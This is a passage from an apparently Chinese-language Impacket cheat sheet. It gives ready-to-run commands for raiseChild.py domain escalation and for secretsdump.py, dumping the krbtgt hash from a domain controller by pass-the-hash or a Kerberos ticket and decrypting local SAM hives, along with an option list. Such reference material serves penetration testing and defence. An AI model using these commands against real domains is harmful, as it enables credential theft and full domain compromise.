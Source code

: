 #### 常用命令

```plain
py -3 raiseChild.py childDomain.net/adminuser:mypwd
```

#### 常用选项

## Windows 密码

### secretsdump.py

#### 常用命令

**基于 NTLM 认证，使用机器用户导出**

```plain
py -3 secretsdump.py -hashes 5f8506740ed68996ffd4e5cf80cb5174:5f8506740ed68996ffd4e5cf80cb5174 "domain/DC\$@DCIP" -just-dc-user krbtgt
```

**基于 Kerberos 票据导出**

```plain
export KRB5CCNAME=ad01.ccache 
py -3 secretsdump.py -k -no-pass AD01.test.com -dc-ip 192.168.111.146 -target-ip 192.168.111.146 -just-dc-user krbtgt
```

**本地解密 SAM**

```plain
py -3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

#### 常用选项

> \-system SYSTEM SYSTEM 文件  
> \-security SECURITY security 文件  
> \-sam SAM SAM 文件  
> \-ntds NTDS NTDS.DIT 文件  
> \-resumefile RESUMEFILE 待恢复的 NTDS.DIT 转储文件  
> \-outputfile OUTPUTFILE 输出的文件名  
> \-use-vss 使用 vss 卷影替代 DRSUAPI  
> \-rodcNo RODCNO Number of the RODC krbtgt account (only avaiable for Kerb-Key-List approach)  
> \-rodcKey RODCKEY AES key of the Read Only Domain Controller (only avaiable for Kerb-Key-List approach)  
> \-use-keylist 使用 KerberosKeyList 转储 TGS-REQ  
> \-exec-method \[{smbexec,wmiexec,mmcexec}\] 使用 vss 卷影导出时执行命令的方法，分别有 smbexec、wmiexec、mmcexec

### mimikatz.py

这是一个比较鸡肋的功能，需要先在目标机器上用 mimikatz 执行 rpc::server

然后用该脚本进行连接
